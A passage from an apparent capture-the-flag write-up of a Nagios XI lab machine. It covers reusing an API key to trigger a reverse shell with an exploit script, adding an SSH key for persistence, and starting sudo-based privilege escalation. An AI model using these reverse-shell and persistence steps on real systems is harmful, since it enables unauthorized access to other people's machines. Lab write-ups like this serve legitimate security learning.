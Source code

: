 I had successfully created a new admin user, but it didn't turn out to be all that useful. 

### Nagios API RCE

From here I looked further into the script I had found earlier. At first I had thought it was only meant to streamline the SQL injection, but I found that it had actually combined two exploits into one. It performed the SQL injection, yes, but it also contained an RCE exploit. By editing the exploit to use the API key I had already obtained instead of dynamically generating it with sqlmap, I successfully triggered a reverse shell.

```
python3 ./payload.py nagios.monitored.htb 10.10.14.18 4444 
```

For good measure and persistence, I added my SSH public key to the server.

```
ssh-keygen 
```

```
cat ~/.ssh/id_ed25519.pub
```

```
cd /home/nagios/.ssh
```

```
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIH5ErsH9G1kMulsYKPZMgc6nazSps2cagp3C6mvcTDUQ kali@kali" > authorized_keys 
```

### Privilege Escalation: manage_services.sh

Now that I finally had a shell, I checked my sudo permissions.

```
sudo -l
```

It seems as though I have plenty of options to choose from, but the permission that stuck out to me most was for a script called manage_services.sh. I first went to the directory to see if I had write permissions on the script directly, but no dice. Regardless, I needed to know what the script actually did.

```
cat /usr/local/nagiosxi/scripts/manage_services.sh
```

As it turns out, the script is for... managing services. Who would've thought? But that actually works out great for me.

`Things you can do    
`first=("start" "stop" "restart" "status" "reload" "checkconfig" "enable" "disable") 
`second=("postgresql" "httpd" "mysqld" "nagios" "ndo2db" "npcd" "snmptt" "ntpd" "crond" "shellinaboxd" "snmptrapd" "php-fpm") `

My first instinct was to check out "shellinaboxd." It had been sticking out to me since the start of this box when I saw it in my fuzzing. 
